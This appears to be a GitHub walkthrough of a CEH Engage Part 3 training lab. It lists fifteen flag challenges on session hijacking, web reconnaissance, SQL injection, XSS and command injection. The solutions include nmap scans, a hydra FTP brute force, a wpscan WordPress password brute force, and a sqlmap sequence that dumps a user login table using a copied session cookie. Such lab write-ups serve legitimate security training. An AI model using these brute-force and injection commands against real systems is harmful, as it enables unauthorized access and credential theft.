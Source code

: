 **CEH Engage Part 3**

Part 3 of CEH Skill Check covers Session Hijacking, Evading IDS, Firewalls, and Honeypots, Hacking Web Servers, Hacking Web Applications, and SQL Injection modules. In this part, you must take over active network and application sessions, compromise firewall, IDS, and other perimeter defense mechanisms, and exploit the organization’s web applications. You need to note all the information discovered in this part of the Skill Check and proceed to the subsequent phases of the ethical hacking cycle in the next part of the Skill Check.

Flags

**Challenge 1:**

CEHORG suspects of a possible session hijacking attack on a machine in its network. The organisation has retained the network traffic data for the session at C:\Users\Admin\Documents in the EH Workstation – 2 as sniffsession.pcap. You have been assigned a task to perform an analysis and find out the protocol that has been used for sniffing on its network. (Format: AAA)

#Module 11 Session Hijacking - Lab2 - Wireshark#
![Screenshot 2024-12-12 at 11 49 56 AM](https://github.com/user-attachments/assets/d1210604-f1dc-4e0d-b089-729266bfc0a6)

**Challenge 2:**

Perform an HTTP-recon on www.certifiedhacker.com and find out the version of Nginx used by the web server. (Format: N.NN.N)

#Module 13 Hacking Web Servers - Lab1 - httprecon#
![Screenshot 2024-12-12 at 11 53 33 AM](https://github.com/user-attachments/assets/91dc1966-6db4-4f68-a38b-b722a7b749c8)


**Challenge 3:**

An FTP site is hosted on a machine in the CEHORG network. Crack the FTP credentials, obtain the “flag.txt” file and determine the content in the file. (Format: Aaaaaaa*AAA)

#Module 13 Hacking Web Servers - Lab2 - Hydra#

```
nmap -p 21 172.16.0.0/24

nmap -p 21 10.10.10.0/24

nmap -p 21 192.168.0.0/24
```

```
hydra -L <username.txt> -P <password.txt> ftp://172.16.0.12
```
![Screenshot 2024-12-12 at 12 08 57 PM](https://github.com/user-attachments/assets/cdab6979-a6b1-4ec8-863e-314000aa648b)

![Screenshot 2024-12-12 at 12 11 40 PM](https://github.com/user-attachments/assets/98e5919d-cd2a-4632-a20e-17075b4f6b14)

**Challenge 4:**

Perform Banner grabbing on the web application movies.cehorg.com and find out the ETag of the respective target machine. (Format: "NaNNNNNaaaNaaNN*N")

#Module 14 Hacking Web Applications - Lab1 - telnet#

```
telnet movies.cehorg.com 80
```
![Screenshot 2024-12-12 at 12 23 44 PM](https://github.com/user-attachments/assets/52183f4e-c8eb-447b-ba62-cdd385f3fd97)


**Challenge 5:**

Identify the Content Management System used by www.cehorg.com. (Format: AaaaAaaaa)

#Module 14 Hacking Web Applications - Lab1 - whatweb#

```
whatweb www.cehorg.com -v
```
![Screenshot 2024-12-12 at 2 49 33 PM](https://github.com/user-attachments/assets/b8dd8ae6-6773-4b62-a861-adf297c3056e)

**Challenge 6:**

Perform web application reconnaissance on movies.cehorg.com and find out the HTTP server used by the web application. (Format: Aaaaaaaaa-AAA/NN.N)

#Module 14 Hacking Web Applications - Lab1 - whatweb#

```
whatweb movies.cehorg.com -v
```
![Screenshot 2024-12-12 at 2 52 07 PM](https://github.com/user-attachments/assets/a7ea1d8a-b634-4cae-a2f1-2eb3c6282fc1)

**Challenge 7:**

Perform Web Crawling on the web application movies.cehorg.com and identify the number of live png files in images folder. (Format: N)

#Module 14 Hacking Web Applications - Lab1 - OWASP ZAP#

![Screenshot 2024-12-12 at 2 59 23 PM](https://github.com/user-attachments/assets/2c3a4375-fa10-4a52-8673-082863b51583)

**Challenge 8:**

Identify the load balancing service used by eccouncil.org. (Format: aaaaaaaaaa)

#Module 14 Hacking Web Applications - Lab1 - lbd command#
![Screenshot 2024-12-12 at 3 04 58 PM](https://github.com/user-attachments/assets/eb0e3f9d-4858-4e17-9eb0-03e0914d6445)


**Challenge 9:**

Perform a bruteforce attack on www.cehorg.com and find the password of user adam. (Format: aaaaaaNNNN)

#Module 14 Hacking Web Applications - Lab2 - wpscan#
```
wpscan --url http://cehorg.com/wp-login.php -U ./Usernames.txt -P ./Passwords.txt
```


**Challenge 10:**

Perform parameter tampering on movies.cehorg.com and find out the user for id 1003. (Format: Aaaaa)

#Module 14 Hacking Web Applications - Lab2 - XSS Vuberability#
![Screenshot 2024-12-12 at 3 19 27 PM](https://github.com/user-attachments/assets/37b7e592-3b46-40b6-910b-04c23303e353)


**Challenge 11:**

Perform a SQL Injection attack on movies.cehorg.com and find out the number of users available in the database. Use Jason/welcome as login credentials. (Format: N)

#Module 15 SQL Injection - Lab1 -sqlmap#

```
document.cookie
```
![Screenshot 2024-12-12 at 3 31 53 PM](https://github.com/user-attachments/assets/84fb2749-dbd7-4c51-8329-e30a63b8a00b)

```
sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="[cookie value that you copied in Step 8]" --dbs

```
![Screenshot 2024-12-12 at 3 42 09 PM](https://github.com/user-attachments/assets/88d0eba5-9d66-4657-9991-87a8e06dd2aa)

```
sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="[cookie value which you have copied in Step 8]" -D moviescope --tables
```
![Screenshot 2024-12-12 at 3 42 45 PM](https://github.com/user-attachments/assets/16e09ee5-282b-4d60-bb93-a17e1919943b)

```
sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="[cookie value which you have copied in Step 8]" -D moviescope -T User_Login --dump

```
![Screenshot 2024-12-12 at 3 43 38 PM](https://github.com/user-attachments/assets/084f945a-f7ce-480c-8f49-8a5f986ff0e6)

**Challenge 12:**

Perform XSS vulnerability test on www.cehorg.com and identify whether the application is vulnerable to attack or not. (Yes/No). (Format: Aa)

**Challenge 13:**

A file named Hash.txt has been uploaded through DVWA (http://10.10.10.25:8080/DVWA). The file is located in the directory mentioned below. Access the file and crack the MD5 hash to reveal the original message; enter the content after cracking the hash. You can log into the DVWA using the following credentials. Note: Username- admin; Password- password Path: C:\wamp64\www\DVWA\hackable\uploads\Hash.txt Hint: Use “type” command to view the file. Use the following link to decrypt the hash- https://hashes.com/en/decrypt/hash (Format: Aa*aaNa)

**Challenge 14:**

Perform command injection attack on 10.10.10.25 and find out how many user accounts are registered with the machine. Note: Exclude admin/Guest user (Format: N)

**Challenge 15:**

You have identified a vulnerable web application on a Linux server at port 8080. Exploit the web application vulnerability, gain access to the server and enter the content of RootFlag.txt as the answer. (Format: Aa*aaNNNN)
